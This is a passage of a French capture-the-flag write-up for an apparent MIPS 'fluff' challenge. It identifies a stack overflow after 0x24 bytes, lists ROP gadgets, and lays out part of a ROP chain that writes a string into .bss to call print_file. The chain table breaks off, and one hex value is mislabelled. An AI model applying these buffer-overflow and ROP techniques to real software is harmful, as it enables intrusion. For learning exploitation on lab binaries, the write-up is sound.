     │           0x00000984      25e8c003       move sp, fp
    │           0x00000988      3c00bf8f       lw ra, (var_3ch)
    │           0x0000098c      3800be8f       lw fp, (var_38h)
    │           0x00000990      4000bd27       addiu sp, sp, 0x40
    │           0x00000994      0800e003       jr ra
    └           0x00000998      00000000       nop

La lecture se fait dans un buffer de 512 octets et le débordement à lieu après 0x24 octets comme pour write4.
( cf article write 4 )



### Etude des gadgets

Pour ecrire en memoire

On trouve ce gadget qui fait partie de "quesionnableGadgets" 

    0x0040099c : lw $t9, 4($sp) ; sw $s1, ($s0) ; jalr $t9 ; addi $sp, $sp, 8

Il nous faut contrôler `s0` et `s1`.

Pour cela on trouve avec : **# ROPgadget --binary fluff_mipsel |grep "lw \$a0"**

    0x00400aac : lw $ra, 0x24($sp) ; lw $s1, 0x20($sp) ; lw $s0, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x28

Le gadget va chercher relativement loin les valeurs sur la pile et effectue un ajustement de 0x28 (80) octets, 10 mots sur la pile ce qui est pas mal d'autant qu'on doit l'utiliser deux fois.
ON devra insérer des mots de junk dans la chaine.
Mais on a de la place (512 octets)

Appel de print_file.

En recherchant "ROPgadget --binary fluff_mipsel |grep "lw \$a0"
On trouve le gadget déjà vu dans quesionnableGadgets.

    0x004009ac : lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc

### La chaine de ROP

| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| ---------- | Ecriture de "flbd" dans .bss|
| 0x00400aac | lw $ra, 0x24($sp) ; lw $s1, 0x20($sp) ; lw $s0, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x28 | charge s0,s1
| 0xdeadbeef | | junk | 7 junks
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0x00411070 | @.bss | pour `s0` 
| 0x67626c66 | 'flbd' | pour `s1`
| 0x0040099c | lw $t9, 4($sp) ; sw $s1, ($s0) ; jalr $t9 ; addi $sp, $sp, 8 | Pour `t9` du gadget de chargement
| 0xdeadbeef | | junk |
| ---------- | Ecriture de "-t{t"" dans .bss+4
| 0x00400aac | lw $ra, 0x24($sp) ; lw $s1, 0x20($sp) ; lw $s0, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x28 | charge s0,s1
| 0xdeadbeef | | junk | 7 junks
